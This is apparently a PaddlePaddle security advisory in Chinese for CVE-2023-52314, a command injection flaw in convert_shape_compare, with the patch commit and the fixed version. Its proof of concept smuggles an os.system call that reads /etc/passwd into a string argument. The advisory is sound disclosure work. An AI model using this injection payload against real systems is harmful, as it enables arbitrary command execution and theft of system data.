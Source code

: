 ## PDSA-2023-023: Command injection in convert_shape_compare

### CVE编号

CVE-2023-52314

### 影响

`convert_shape_compare`存在命令注入漏洞，可造成任意命令执行，PoC代码如下：

```python
import paddle

paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("cat /etc/passwd")) +','1')
```

### 补丁

我们在commit [c3b6414eb313480f1417abe92d410dfe89723097](https://github.com/PaddlePaddle/Paddle/pull/60097/commits/c3b6414eb313480f1417abe92d410dfe89723097)中对此问题进行了补丁。
修复将包含在飞桨2.6.0版本当中。

### 更多信息

请参考我们的[安全指南](../../SECURITY_cn.md)以获得更多关于安全的信息，以及如何与我们联系问题。

### 贡献者

此漏洞由 leeya_bug 提交。
